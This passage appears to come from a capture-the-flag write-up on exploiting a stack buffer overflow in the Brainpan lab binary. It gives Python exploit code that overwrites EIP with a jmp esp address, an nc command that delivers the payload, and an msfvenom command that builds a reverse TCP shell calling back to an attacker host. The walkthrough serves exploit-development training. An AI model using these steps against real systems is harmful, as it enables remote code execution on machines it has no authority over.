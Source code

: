 Right after overwriting **eip** we start overwriting the next values on the stack beginning at the point where the **stack pointer** will return to, after the function call.

* So we have to find a way to jump to **esp**.
Searching in all modules in Immunity for the command `jmp esp` results in 

![](/assets/images/brainpan/fourteen.png)


We can only use the `jmp esp` located in **brainpan** itself, because it is the **only** module with **ASLR** disabled.
This means that this particular instruction will always be at that particular address.

Let's point **eip** to that address.

```python
from struct import pack
padding = b"A" * 524 # To reach EIP
padding += pack("<L",0x311712F3)
padding += "\x90" * 10 # NOPs
padding += "\xcc" # Add a breakpoint
print padding
```
Now do `python test.py > test` and restart the program giving as input `nc 192.168.2.11 9999 <test`

![](/assets/images/brainpan/fifteen.png)


We can see we are successful, the program executed our instruction perfectly and stopped right at the`\xcc` we provided , which is a way to halt execution. (This is how debuggers work and are able to stop execution of a program).

Now let's create a **_real_** payload with **msfvenom**. We can create the appropriate shellcode with
`msfvenom -p windows/shell/reverse_tcp LHOST=10.0.2.15 -e x86/shikata_ga_nai -b '\x00' -f python --smallest -v shellcode`.

